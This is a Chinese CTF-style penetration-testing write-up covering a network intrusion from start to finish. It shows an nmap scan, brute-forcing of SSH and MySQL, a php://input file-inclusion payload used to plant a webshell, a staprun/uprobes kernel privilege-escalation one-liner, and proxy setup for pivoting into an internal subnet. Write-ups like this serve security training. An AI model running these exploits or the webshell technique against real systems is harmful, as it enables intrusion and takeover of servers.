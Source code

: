 ```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-27 08:33 CST
Nmap scan report for 192.168.5.10
Host is up (0.00097s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 4.3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.2.3 ((CentOS))
111/tcp  open  rpcbind 2 (RPC #100000)
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

看到开了22,80,111,3306四个端口。这里，我直接后台开了hrydra尝试爆破了下22和3306，可惜没拿到好的结果。

然后，突然发现AWVS扫描器给了一个高危漏洞提醒，发现这个站前台竟然直接存在文件包含漏洞。于是尝试`php://input`直接写webshell，拿下第一个web站。

```bash
http://shop.theyer.com/index.php?page=php://input
<?php phpinfo();?>
```

PS: 这其实是和预期解有差别，主要原因是一开始我没怎么看前端逻辑，外加AWVS异常给力，直接给了个高危，所以很暴力，直接获得了webshell。传统解法应该是先通过第一个www站（上面文件包含是shop站，）下载到一个apk，然后逆向得到第二个站shop的url，接着通过shop站获得权限。

用蚁剑控制我们的第一台肉鸡，能拿到第一个flag。

![1](https://momomoxiaoxi.com/img/post/429/1.png)

要拿第二个flag则需要提权。

```bash
[centos@localhost upload]$ uname -r
2.6.18-194.el5
```

linux版本很老，直接搜就搜kernel 2.6.18 提权就能得到很多payload。

```bash
#!/bin/bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u root

```

现场使用了如上进行提权，提权到root，获得第二个flag。

#### 纵向渗透

纵向渗透首先要在第一台跳板机上架设代理。我们这里主要用shadowsocks在第一个跳板机上面架设了一个sock5代理，后续走该代理进行攻击。

不过，由于我当时环境有点问题，我另外临时架设了一个HTTP代理，进行一些简单的扫描。[mproxy](https://github.com/examplecode/mproxy)

通过ifconfig，可以知道第一台Centos服务器还有一个网卡，是6段的ip。

 ```bash
? (192.168.6.1) at 00:50:56:A6:FB:37 [ether] on eth1
? (192.168.6.15) at 00:50:56:A6:1D:B4 [ether] on eth1
? (192.168.6.16) at 00:50:56:A6:58:78 [ether] on eth1
? (192.168.6.17) at 00:50:56:A6:BD:AF [ether] on eth1
? (192.168.6.200) at 00:50:56:A6:53:3D [ether] on eth1

 ```
